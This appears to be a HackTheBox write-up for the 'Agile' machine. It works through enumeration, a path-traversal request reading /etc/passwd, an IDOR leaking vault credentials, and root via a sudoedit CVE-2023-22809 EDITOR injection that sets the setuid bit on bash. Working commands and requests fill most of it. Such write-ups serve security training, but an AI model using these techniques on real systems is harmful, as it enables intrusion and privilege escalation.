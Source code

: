 ```yaml
---
title: Agile 
date: 2023-03-06 12:00:00
categories: [HTB,CTF]
tags: [htb]
---
```


# Enumeration

## Rustscan

```bash
sudo rustscan -t 1500 -b 1500 --ulimit 65000 -a 10.129.173.99 -- -sV -sC -oA ./{{ip}}
```

### Ports

```bash
Open 10.129.173.99:22
Open 10.129.173.99:80
```

### Services

```bash
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 63 nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://superpass.htb
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Dirsearch

```bash
dirsearch -u http://superpass.htb
```

```bash
[23:18:21] Starting: 
[23:18:29] 200 -    3KB - /account/login                                    
[23:18:43] 302 -  249B  - /download  ->  /account/login?next=%2Fdownload    
[23:19:03] 301 -  178B  - /static  ->  http://superpass.htb/static/   
```

## Website

Checking the website reveals it is a password manager application called **SuperPassword**

Functionalities are:
- Store Passwords
- Export Passworts as csv

# Foothold

As always when exploring a webapplication I have burp open and take a look at alle the requests that are made during my investigation.  

## LFI: Vault Export

When you export your vault entries you can see a GET request which points to something like **fn=mrk666_export_c84c91617d.csv** which will lead to a **LFI** 

```http
GET /download?fn=../../../../../../../etc/passwd HTTP/1.1
Host: superpass.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: session=.eJwljsGKwzAMRH_F6FwWRYpiJ1-x96UU2ZKbQHa7xOmp9N_XsHMZhhmG94Jb3bWt3mD5ekE4u8G3t6Z3hwt87q7Nw_64h-0nnI-gpfQynOvWwm_ffMD1fb30k8PbCst5PL2nzWABKonjmDDPPowk2eeMQomxOuocPVXhnBF1KlajZhNmq9UMbRJ0RfSZuBTBLnEp0ZRToSmnyCOxKBNJNWZlNKpEQy5ek4xZUsSh49-ezY9_mhnef_MgRhw.ZAZonA.1_WfY4OJTRcIhntsrxakzfnON4g; remember_token=9|8f50cc62e035672203937ef350c45d6a6780afafd9114b725dfb34ffa10cd42e92e484635b44b3f13d76ce1f6af818f2501684844daf93217e66ec4af933165f
Upgrade-Insecure-Requests: 1
token: ddac62a28254561001277727cb397baf
```

```http
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Mon, 06 Mar 2023 22:27:41 GMT
Content-Type: text/csv; charset=utf-8
Content-Length: 1744
Connection: close
Content-Disposition: attachment; filename=superpass_export.csv
Vary: Cookie

root:x:0:0:root:/root:/bin/bash
mysql:x:109:112:MySQL Server,,,:/nonexistent:/bin/false
corum:x:1000:1000:corum:/home/corum:/bin/bash
runner:x:1001:1001::/app/app-testing/:/bin/sh
edwards:x:1002:1002::/home/edwards:/bin/bash
dev_admin:x:1003:1003::/home/dev_admin:/bin/bash
```

## IDOR: Vault Rows

As soon as you try to edit a row you will see a request popping up to **/vault/edit_row/10** for example.  
If you examine the the response you receive there's a GET to **/vault/row/10** which can be queried in browser.  

This is affected by an **IDOR**, you are able to leak sensitive data of other accounts.

And this is how I leaked SSH credentials for the user **corum** which, as you can see by abusing the **LFI**, is registered on the server.  

# Local Privilege Escalation

## Enumeration

### Ports

Let's check for open ports to see if there's something that isn't available from the 

```bash
netstat -tlpn
```

```bash
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:5555          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                                   
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:33060         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:43361         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:41829         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:5000          0.0.0.0:*               LISTEN      -                   
```

### Subdomains

```bash
grep -r "server_name" /etc/nginx/sites-enabled/*
```

```bash
/etc/nginx/sites-enabled/agile.htb.nginx:    server_name agile.htb;
/etc/nginx/sites-enabled/redirect.nginx:    server_name _;
/etc/nginx/sites-enabled/superpass-test.nginx:    server_name test.superpass.htb;
/etc/nginx/sites-enabled/superpass.nginx:    server_name superpass.htb;
```

To us this one will be the interesting one

```bash
server {
    listen 127.0.0.1:80;
    server_name test.superpass.htb;

    location /static {
        alias /app/app-testing/superpass/static;
        expires 365d;
    }
    location / {
        include uwsgi_params;
        proxy_pass http://127.0.0.1:5555;
        proxy_set_header Host $host;
        proxy_set_header X-Real-IP $remote_addr;
        proxy_set_header X-Forwarded-Protocol $scheme;
    }
}
```

## Escalate: Edwards

We will setup a simple portforwarding, open the devpage in our browser and abuse the same idor as before.

```bash
# This URL will get us the credentials for edward
http://127.0.0.1:5555/vault/row/1
```

# Root

## Sudo Permissions

```bash
sudo -l
```

```bash
User edwards may run the following commands on agile:
    (dev_admin : dev_admin) sudoedit /app/config_test.json
    (dev_admin : dev_admin) sudoedit /app/app-testing/tests/functional/creds.txt
```

## CVE-2023-22809

Hmm, we got sudoedit so let's check for **CVE-2023-22809**. 
It seems like we are able to abuse our rights to read and write to any file owned by either the user **dev_admin** or the group **dev_admin**  d07867c6267dcb5df0af

```bash
sudo --version
```

```bash
Sudo version 1.9.9
Sudoers policy plugin version 1.9.9
Sudoers file grammar version 48
Sudoers I/O plugin version 1.9.9
Sudoers audit plugin version 1.9.9
```

According to pspy64 root is sourcing a file that is owned by dev_admin which we could abuse to execute commands.

```bash
2023/03/07 00:10:01 CMD: UID=0    PID=4380   | /bin/bash -c source /app/venv/bin/activate 
```

## Rooted

I was able to use this command to add **chmod +s /bin/bash** to the file and get root.

```bash
EDITOR="vi -- /app/venv/bin/activate" sudo -u dev_admin sudoedit /app/config_test.json
```

```bash
edwards@agile:/dev/shm$ /bin/bash -p
edwards@agile:/dev/shm# whoami
root
edwards@agile:/dev/shm# cd /root
edwards@agile:/root# ls
app  clean.sh  root.txt  superpass.sql  testdb.sql
```